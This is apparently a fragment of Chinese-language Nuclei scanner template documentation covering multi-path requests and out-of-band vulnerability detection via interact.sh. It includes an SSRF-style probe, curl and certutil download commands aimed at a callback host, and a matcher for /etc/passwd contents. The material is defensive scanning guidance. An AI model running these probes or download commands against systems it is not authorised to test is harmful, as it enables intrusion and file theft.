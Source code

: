 ```yaml
requests:
  - method: GET
    path:
      - "{{BaseURL}}"
      - "{{BaseURL}}/login"
      - "{{BaseURL}}/main"
      - "{{BaseURL}}/index"

    stop-at-first-match: true
```

#### OOB

自 Nuclei v2.3.6 发行以来，Nuclei 支持使用 interact.sh API 内置自动请求关联来实现基于 OOB 的漏洞扫描。就像 `{{interactsh-url}}` 在请求中的任何位置编写并为添加匹配器一样简单 interact_protocol。Nuclei 将处理交互作用与模板的相关性，以及通过允许轻松进行 OOB 扫描而生成的请求的相关性。

```yaml
requests:
  - raw:
      - |
        GET /plugins/servlet/oauth/users/icon-uri?consumerUri=https://{{interactsh-url}} HTTP/1.1
        Host: {{Hostname}}
```

**linux**
```bash
curl https://{{interactsh-url}}
```

**windows**
```bash
certutil.exe -urlcache -split -f https://{{interactsh-url}} 1.txt
```

```yaml
    matchers:
      - type: word
        part: interactsh_protocol # Confirms the HTTP Interaction
        words:
          - "http"
```

```yaml
    matchers-condition: and
    matchers:
      - type: word
        part: interactsh_protocol # Confirms the HTTP Interaction
        words:
          - "http"

      - type: regex
        part: interactsh_request # Confirms the retrieval of etc/passwd file
        regex:
          - "root:.*:0:0"
```
